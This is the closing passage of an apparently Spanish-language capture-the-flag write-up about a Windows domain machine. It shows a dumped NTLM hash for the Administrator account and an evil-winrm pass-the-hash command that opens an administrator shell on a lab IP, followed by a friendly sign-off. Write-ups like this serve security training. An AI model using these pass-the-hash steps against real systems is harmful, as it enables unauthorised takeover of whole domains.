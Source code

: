 ```js
Object Relative ID   : 500

Credentials:
  Hash NTLM: 5917517bdf2ef0c2b0a869a1cca40726
```

Y con ello, sólo tenemos que hacer _Pass The Hash_ y estamos servidor con un control total sobre el dominio:

```js
❯ evil-winrm -H 5917517bdf2ef0c2b0a869a1cca40726 -u Administrator -i 10.10.11.89
<SNIP!>
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
darkzero\administrator
```

###### Agradecimiento

Si lees esto, gracias por llegar hasta aquí!, si existen dudas, comentarios y correcciones (que son más que bienvenidas) contáctame con confianza, que siempre he dicho que la ciberseguridad es esfuerzo conjunto. 

En caso que no los vea, buenos días, buenas tardes y buenas noches. Happy Hacking!.
